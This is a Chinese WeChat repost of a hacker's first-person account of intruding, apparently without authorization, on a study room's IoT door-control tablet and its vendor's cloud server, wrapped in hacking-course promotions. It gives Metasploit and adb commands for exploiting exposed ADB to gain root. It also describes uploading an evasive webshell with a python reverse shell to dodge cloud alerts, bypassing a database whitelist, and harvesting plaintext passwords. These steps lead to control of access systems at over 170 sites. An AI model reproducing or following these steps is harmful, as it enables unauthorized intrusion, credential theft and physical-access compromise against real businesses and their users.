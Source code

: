 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/9dgUD7VpT8Zoj0lKYly4yQ)

![](https://mmbiz.qpic.cn/mmbiz_png/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fuBhZCW25hNtiawibXa6jdibJO1LiaaYSDECImNTbFbhRx4BTAibjAv1wDBA/640?wx_fmt=png)

扫码领资料

获黑客教程

免费 & 进群

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFJNibV2baHRo8G34MZhFD1sjTz4LHLiaKG9208VTU6pdTIEpC9jlW6UVfhIb9rHorCvvMsdiaya4T6Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fchVnBLMw4kTQ7B9oUy0RGfiacu34QEZgDpfia0sVmWrHcDZCV1Na5wDQ/640?wx_fmt=png)

****作者：acoke****

****原文地址：https://forum.90sec.com/t/topic/1537****

前段时间找了个自习室学习，因为自习室网络不太好就无聊扫了一下网段，发现了一台 Ampak Technology 机器

  
以为是笔记本电脑（自习室一般都是用手机比较多），就扫了一下详细信息：

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSG0iaesCWia3iaHuWdU8picAEZNexpNVEjJ9mUxWqkoqoTdkjjfqLKhIswK26fzDKQobUthrVZPaJfibSQ/640?wx_fmt=png)

发现开了 5555，之前对这个端口没了解过，就百度了一下发现是 adb 服务，刚好看到一篇文章（https://www.cnblogs.com/guaishoujingling/p/11101649.html）

是打靶机，不过看到说是 2016 年的洞了，也没想能利用成功，就 msf 用了一下： 

search adb use exploit/android/adb/adb_server_exec

设置目标 ip：  
`set RHOSTS 192.168.2.34`

  
设置自己的 ip：  
`set LHOST 192.168.2.136`

  
我直接贴 run 的截图了：

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSG0iaesCWia3iaHuWdU8picAEZN9Tk5fl9f0VRZuop1c73UfoMr9n3NCQbqart8BI64SeQGIqPddSpD1Q/640?wx_fmt=png)

这里利用成功后是不返回 shell 的，要利用 adb 连接，安装 adb：

  
brew cask install android-platform-tools  

安装成功后连接目标：

                                 
adb connect 192.168.2.34:5555

adb devices 查看一下连接状态是成功连接了：

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSG0iaesCWia3iaHuWdU8picAEZNNpmuIraXB3IfaDBHYjjv2mPLevXPibck8WBWkk2ST2wyDg2hiaiaDfoww/640?wx_fmt=png)

adb shell 直接远程命令执行发现不是 root 权限，su 成功拿到 root 权限：  

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSG0iaesCWia3iaHuWdU8picAEZNmccL95v81krxgvcP2IefyLaxg13A3fNL14ZjKHCZkTtSDPJzias89Vg/640?wx_fmt=png)

  
截个图看看：  
adb shell screencap -p /sdcard/screen.png

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSG0iaesCWia3iaHuWdU8picAEZNIlAFO9iaVyzElnSQqdXYqzXWPsrHcz1233Kgen9EykC7doMQiaWlmmaQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSG0iaesCWia3iaHuWdU8picAEZNgje1n9NouU9KGj9SeI4o1XT5P6eaJ0tm21PSEdH2CsjOibr57ib0caKQ/640?wx_fmt=png)

 通过 adb 漏洞实际已经可以利用 root 来操控门禁系统了（比如 kill 掉服务，清除锁屏密码等），但是这些操作会被自习室管理员知道，我想要通过远程在管理员不知道的情况下来操控门禁系统还是不行的...  

继续利用，通过收集平板上面的信息知道了用户 id 是 xxxxxx，还知道了平板是 xx 科技的，然后谷歌和扫描找到了 xx 科技的用户管理登录界面和 api 文档，

知道了要实现操控门禁系统需要用户 apiid 和 apikey 还要 acsurl，这些信息都是登录后要找的，通过爆破无果，找 xx 科技的客服要了测试账号和密码看了看后台也没有什么能利用的洞

  
只能返回到平板，既然是通过网络对接平板，平板上肯定有用户信息，

通过抓取网络数据包和查看安装 app 包发现 com.xxx.aidoor 是 xx 科技对接门禁的 app，

于是 find 了一下 com.xxx.aidoor，找到了 com.xxx.aidoor 的数据库，在数据库中并没有找到 api 对接所需要的信息，但是找到了一个 web 网址：

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSG0iaesCWia3iaHuWdU8picAEZNaP4lPwDAOH2KSrOnqTS36VwgnfsO6k4DX1E8n7CrqiahdC3OXLNrmow/640?wx_fmt=png)

通过这个地址继续收集信息知道自习室系统的的管理登录界面和用户登录界面，扫了一下端口和信息，发现是阿里云的服务器，宝塔面板  

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSG0iaesCWia3iaHuWdU8picAEZNEFvwJafYicVcdqUWNiaNnLEZ5Wk5ndO6m1MiaBXexqvyWLlCicB78YKchQ/640?wx_fmt=png)

这里 21，22 的利用肯定是放到后面没办法了再回来搞，看了看 svn 也没什么可以搞的，几个页面也没什么信息，宝塔和 think6.0.2，搜了下相关漏洞也没什么能搞的，只能靠自己了

在自习室系统的登录界面（上面说的 xx 科技登录是 iot 设备的登录界面）发现了可以找客户要试用账号，于是加上客服微信要到了试用账号：

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSG0iaesCWia3iaHuWdU8picAEZN4VrPOXAQ8BvCciajlxdG4Nw9vmHzQnRZgBESRrXB7H7hJdybQva1qGA/640?wx_fmt=png)

拿到后台试用账号后就看有没有什么能利用的漏洞，因为后台的所有上传都是用的腾讯云储存（其实有一处上传点的）

所以找别的能利用的漏洞，找到了 xss 和越权，但是比较鸡肋，利用困难，不是重点这里就不贴了，一直找啊找找啊找终于找到一处上传点不是传到腾讯云储存的，

因为后台和美团还有商户微信对接，所以要上传证书文件，可以直接改后缀上传，传了一个 phpinfo 看了一下  

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSG0iaesCWia3iaHuWdU8picAEZNL5bZibFAsYicHgXeUP4ic12oEeIxUlEQtm3P2v5ib7vCI6nAEEaniaia4Jfw/640?wx_fmt=png)

宝塔禁用的函数实在是太多了，加上阿里云会报警，

**这里小技巧：**  

传个过宝塔函数的免杀马 + python 反弹 shell 可以避免阿里云报警成功无痕迹 getshell  

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSG0iaesCWia3iaHuWdU8picAEZN5RPZNo6GcCDibEaCcdyiaWLnwbpfPzdpO1msGcwicDkzJRqia9N6INHl7A/640?wx_fmt=png)

有了交互 shell 接下来的事情就好办多了，find 一下 config 找到了 mysql 信息：

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSG0iaesCWia3iaHuWdU8picAEZNwNkFHicAyHgSLFAko78TUCibRBFFmt0pK7JtQMVSTTQskwSiarDPLDsVg/640?wx_fmt=png)

这里发现用的是阿里云的 rds 数据库，站库分离，我本地连接不上，推测是做了白名单限制，有了交互式 shell 白名单限制形同虚设好嘛～wget 一份 phpmyadmin 过去，成功绕过：

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSG0iaesCWia3iaHuWdU8picAEZNvMTKLN9q2krD4hebI9KQ69QswiaUDPKulZ1Ogsa57A0TiaWt0xZ5ia1WA/640?wx_fmt=png)

不过数据都是进行加密的，连着查了几条都解不开，推测是自写加密。

这能难倒我？

渗透测试的本质就是信息收集好吧，通过对服务器文件进行信息收集发现在 xxx 文件夹下存放着用户登录的 log，通过 log 可以直接查看用户登录的明文密码：

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSG0iaesCWia3iaHuWdU8picAEZNHHurVQUeqsUtHC6qbia8GWCic4JlO0PJkzaVD54OqlXEpkr2FOia7h08Q/640?wx_fmt=png)

成功拿到总管理账号，这套自习室系统的用户还是不少的，全国 170 多家：  

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSG0iaesCWia3iaHuWdU8picAEZNSceN7rGqGibOxiavlb2dDPK60lcf0KggoorQL8OUDYYrrVJMgVcqYOuA/640?wx_fmt=png)

这个自习室管理系统是和我一开始 adb 漏洞利用的那个门禁平板的公司合作的，因为后台对接了门禁系统，所以可以直接在后台通过对自习室管理看到门禁系统的账号密码，进而可以远程控制全国 170 多家自习室的 iot 设备  

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSG0iaesCWia3iaHuWdU8picAEZN6JWQib9lZLCRe9ia6AWVBL2YQXj4YMqzJeRTN79ocBtsJhuEx2IzYibsg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSG0iaesCWia3iaHuWdU8picAEZNIFHIfxYUVswg1X9N3VRKiabhiauSqjGZxicCpjCCiccylSicgBsqR530JPA/640?wx_fmt=png)

完   

学习更多黑客技能！体验靶场实战练习  

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFl47EYg6ls051qhdSjLlw0BxJG577ibQVuFIDnM6s3IfO3icwAh4aA9y93tNZ3yPick93sjUs9n7kjg/640?wx_fmt=png)

（黑客视频资料及工具）  

![](https://mmbiz.qpic.cn/mmbiz_gif/CBJYPapLzSEDYDXMUyXOORnntKZKuIu5iaaqlBxRrM5G7GsnS5fY4V7PwsMWuGTaMIlgXxyYzTDWTxIUwndF8vw/640?wx_fmt=gif)

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFTib5w98ocX6Sx1YcmgS0tfPOIyEmD8jse5YLoeZzDibM8rNrQibZPsibKXekZaR8FFV3flUT84nU0LQ/640?wx_fmt=png)

往期内容回顾

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFTib5w98ocX6Sx1YcmgS0tfPOIyEmD8jse5YLoeZzDibM8rNrQibZPsibKXekZaR8FFV3flUT84nU0LQ/640?wx_fmt=png)

[渗透某赌博网站杀猪盘的经历！](http://mp.weixin.qq.com/s?__biz=MzI4NTcxMjQ1MA==&mid=2247493616&idx=1&sn=0299bced5d71aa60c9cea5b77a3b8fe7&chksm=ebeaaedddc9d27cb805b5e970f5554c47c32a69fdb9ee39acd1642a163e55b17f429e5db06a7&scene=21#wechat_redirect)  

[【教程】利用木马远程控制目标手机](http://mp.weixin.qq.com/s?__biz=MzI4NTcxMjQ1MA==&mid=2247502800&idx=1&sn=3c0c6ba8f469a6a08560fb8f61094ed7&chksm=ebea82fddc9d0bebb4a2a85308f44028aa484da945a35de801687532410f896b06ec3bdc1a24&scene=21#wechat_redirect)  

[黑客网站大全！都在这了！速看被删就没了](http://mp.weixin.qq.com/s?__biz=MzI4NTcxMjQ1MA==&mid=2247493025&idx=1&sn=97a10a4eca361ad2f66435f89bdcf2a3&chksm=ebeaac8cdc9d259ac26623014a38181b60ba57af9577f4e062e0ed9f33baef84ff60e645a6e6&scene=21#wechat_redirect)

![](https://mmbiz.qpic.cn/mmbiz_gif/CBJYPapLzSFTib5w98ocX6Sx1YcmgS0tfPyjxT8Q78w0uBADoIltpF1KribvWfHicVlFwShJRIxZls99XR1jaEYow/640?wx_fmt=gif)